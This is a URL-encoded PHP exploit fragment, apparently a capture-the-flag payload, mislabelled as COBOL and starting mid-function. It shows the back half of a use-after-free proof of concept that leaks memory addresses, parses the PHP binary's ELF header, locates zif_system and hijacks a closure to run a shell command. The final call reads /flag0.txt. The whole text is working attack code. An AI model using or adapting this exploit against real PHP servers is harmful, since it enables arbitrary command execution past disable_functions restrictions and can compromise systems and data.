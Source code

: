 ```cobol
0if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflag0.txt%22)%3Bob_end_flush()%3B%0A%3F%3E
```
